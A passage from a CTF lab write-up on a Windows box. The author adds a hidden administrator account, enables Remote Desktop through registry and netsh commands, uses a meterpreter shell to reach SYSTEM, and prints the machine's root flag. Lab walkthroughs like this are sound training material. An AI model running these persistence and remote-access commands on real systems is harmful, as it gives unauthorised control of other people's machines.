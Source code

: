 

<p>I created a new user called test with password TotallySec123</p>



<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;net user test TotallySec123 /add<br>net user test TotallySec123 /add<br>The command completed successfully.<br>C:\Users\Administrator\Desktop&gt;net localgroup administrators test /add<br>net localgroup administrators test /add<br>The command completed successfully.</pre>



<p>To enable remote desktop I ran the following as Administrator:<code><br></code></p>



<pre class="wp-block-preformatted">reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0<br>netsh firewall set service remoteadmin enable<br>netsh firewall set service remotedesktop enable</pre>



<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2018/11/rdesktop.png" alt="" class="wp-image-464"/><figcaption>logged on as test with password TotallySec123</figcaption></figure>



<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2018/11/rootfile.png" alt="" class="wp-image-465"/><figcaption>root.txt file is green</figcaption></figure>



<figure class="wp-block-image"><img src="http://offsecnewbie.com/wp-content/uploads/2018/11/encrpyted.png" alt="" class="wp-image-467"/><figcaption>the file is encrypted&nbsp;</figcaption></figure>



<p>It looks like the contexts can be indexed.<br></p>



<p>I uploaded a meterpreter shell to priv esc to nt authority\system to see if could view the contents of the file but unfortunately I couldn't.<br></p>



<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;whoami<br>whoami<br>nt authority\system<br>C:\Users\Administrator\Desktop&gt;type root.txt<br>type root.txt<br>Access is denied.<br>C:\Users\Administrator\Desktop&gt;</pre>



<p>I tried to use powershell to view the contents.<br></p>



<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;powershell -nologo "&amp; "Get-Content root.txt"<br>Get-Content : Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.<br></pre>



<p>I'm really not sure whats going on here. Hopefully some one can enlighten me. I managed to get root by changing the administrator password, enabling Remote Desktop logging in, running the ZkAccess program, exiting Remote Desktop then viewing the text file as below:<br></p>



<pre class="wp-block-preformatted">C:\Users\Administrator\Desktop&gt;type root.txt<br>
type root.txt<br>
6e1586cc7ab230a8d297e8f933d904cf<br>
C:\Users\Administrator\Desktop&gt;</pre>



<p><br></p>

